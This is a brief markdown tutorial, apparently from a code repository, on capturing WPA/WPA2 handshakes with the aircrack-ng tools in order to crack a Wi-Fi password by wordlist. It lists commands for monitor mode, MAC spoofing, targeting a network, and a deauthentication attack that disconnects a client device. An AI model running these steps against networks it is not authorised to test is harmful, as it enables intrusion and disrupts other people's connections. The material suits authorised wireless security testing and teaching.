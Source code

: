 # WPA/WPA2 Handshake Capture Guide

This guide outlines hows to capture a WPA/WPA2 handshake in order to attempt to crack the pre-shared key using a wordlist.

## Tools
- Kali Linux
- External wireless adapter
- airmon-ng, airodump-ng, aireplay-ng

  # Check for adapter
  sudo iwconfig

  # Enable adapter if disabled.

  # Bring Down network in adapter
    Sudo ifconfig wlan0 down

  # Terminate running processes
    Sudo airmon-ng check kill

  # Turn monitor mode for adapter
    Sudo airmon-ng start wlan0

  # Spoof MAC address
    Sudo macchanger -r wlan0

  # Determine which networks 5GHz or 2GHz to test
    Sudo airodump-ng --band a wlan0

  # Target a network
    Sudo airodump-ng --bssid (Targeted Network MAC) --channel (Targeted Network Channel) --write (txt file, optional) wlan0

  # Devices talking to network should be listed.

  # using seperate command target a device, to shut down, in order for it ping for a handshake with network during restart.
    Sudo aireplay-ng --deauth 4 -a (Target Network MAC) -c(Target Device MAC) wlan0
  

